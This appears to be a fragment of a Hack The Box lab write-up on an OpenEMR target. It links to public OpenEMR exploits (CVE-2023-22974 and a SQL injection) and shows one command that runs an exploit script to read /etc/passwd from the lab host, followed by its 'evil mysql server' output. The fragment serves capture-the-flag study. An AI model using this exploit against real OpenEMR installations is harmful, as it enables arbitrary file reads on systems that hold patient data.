 ![image](https://github.com/Rogue-1/HTB/assets/105310322/0cceecfc-3848-4ab6-ac3f-54cf928b3dd2)

https://packetstormsecurity.com/files/165301/OpenEMR-6.0.0-6.1.0-dev-SQL-Injection.html

https://github.com/gbrsh/CVE-2023-22974

└─$ python3 exploit.py -i http://openemr.revolt.htb/ -f /etc/passwd http://openemr.revolt.htb/

		 --- OpenEMR exploit ---
		  (arbitrary file read)
				by gbrsh@secragon


Checking if vulnerable: seems so!
Starting evil mysql server: done!

